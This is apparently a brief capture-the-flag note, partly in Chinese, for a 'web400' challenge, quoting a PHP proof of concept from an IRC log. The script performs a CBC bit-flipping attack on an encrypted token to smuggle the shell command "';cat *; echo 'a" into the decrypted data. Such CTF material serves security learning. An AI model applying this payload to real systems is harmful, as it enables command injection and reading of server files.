 沒有寫完整 writeup ，有興趣的人可以看下面的 reference 研究一下 PoC ！

### Reference

    < phiber_> web400 solution http://privatepaste.com/1d0f3254f6

    <?php
    $a = base64_decode(urldecode('%2FW8w%2BUpwN%2B2vh85b54XcyGM2wSNNFFcBqoGr%2BX5S7FOuJn%2FJBJwp1R1F5VpqsR9NkW82Ut8L5hPFKa%2BWIEs2W9DP9Qnq9zhmAJ5FwbNcY6viYT2kZd1Yz06lplcsnRuaFU8gj5TV9jHX8wps2%2BTaAO68TrHgF3Scvt56BrGAlZX%2Fp24qGKQf5m%2B15RdsgC6M%2BQ9Fl7KhwazU1F9yJ9rx7GH5HsCC4ztYeVVoiFYQQIDMPMHZkIeA7sbYrhH6L9Ej8DlEb2dErkHBVP98Wp5aAxm8jIXeqgBHfPF8s26o%2Bjs2T6XfWm3cv%2FN4yp93yGEpSja7dAr1Bdw3k1TVVPAqzGFBA2SbB6skHQhNiC5hfJ4TdymBfzzt8QLvGT3KKBlQP1sgNcLIpwhFCOGlGkN1Nq7%2Bb2GV5h%2FtyLH%2FTW2LGuVcBCTRXFY7mC0IPV2WCFSTyOddnX5t2sNeU9zBop9WeWQe199f50%2FRKRX4aA%2FLsSrGqv%2F2s4z96n9I0Zu4oGcpb9hGh3zvzGZQy6J4TAeKRKCRsIW3vDFacngSGcUAklS4nsRqXJBVEZ70WcBFQjVI7zMX8cjJS8RiyQLKgGpKirYotsetFk98xonYzbwBnyNLiNFEM0WSsPoDSW2UvQe3NfDEJKwT63l9uaAHTbfWXQ%3D%3D'));
    $blocks = str_split($a, 16);
    $blocks[22] = $blocks[22] ^ str_repeat('a', 16) ^ "';cat *; echo 'a";
    $b = implode('', $blocks);
    echo urlencode(base64_encode($b))."\n";
    ?>

- <http://hardc0de.ctf.su/archives/43>
